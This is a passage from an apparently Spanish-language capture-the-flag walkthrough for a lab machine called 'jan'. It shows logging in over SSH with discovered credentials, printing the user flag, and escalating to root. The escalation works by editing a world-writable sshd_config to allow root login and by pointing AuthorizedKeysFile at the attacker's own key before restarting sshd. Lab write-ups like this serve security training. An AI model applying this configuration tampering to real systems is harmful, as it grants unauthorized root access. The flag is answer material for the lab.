 ```
ssh/EazyLOL
```

Vemos que ha funcionado, por lo que vamos a probar a conectarnos por `SSH` con las siguientes credenciales.

### SSH

```shell
ssh ssh@<IP>
```

Metemos como contraseña `EazyLOL` y veremos que estamos dentro, por lo que leeremos la `flag` del usuario.

> user.txt

```
HMVSSWYMCNFIBDAFMTHFK
```

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for ssh on jan:
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for ssh:
    Defaults!/usr/sbin/visudo env_keep+="SUDO_EDITOR EDITOR VISUAL"

User ssh may run the following commands on jan:
    (root) NOPASSWD: /sbin/service sshd restart
```

Vemos que podemos reiniciar el servicio de `SSH` como el usuario `root`, por lo que podremos hacer lo siguiente:

Vamos a ver que permisos tiene la configuracion de `SSH` el archivo:

```shell
ls -la /etc/ssh/sshd_config
```

Info:

```
-rw-rw-rw-    1 root     root          3355 Jan 28 09:01 /etc/ssh/sshd_config
```

Vemos que podemos editar el archivo, por lo que haremos lo siguiente:

```shell
nano /etc/ssh/sshd_config

#Dentro del nano
PermitRootLogin yes #Vamos a poner esto a "yes"
PasswordAuthentication no #Vamos a desmarcar esto eliminando el "#" y le ponemos "no"
StrictModes no #Vamos a desmarcar esto eliminando el "#" y le ponemos "no"
PubkeyAuthentication yes #Vamos a desmarcar esto eliminando el "#"
AuthorizedKeysFile /home/ssh/.ssh/my_key.pub #Cambiamos a la ruta absoluta de nuestra clave publica para que la pille "root"
```
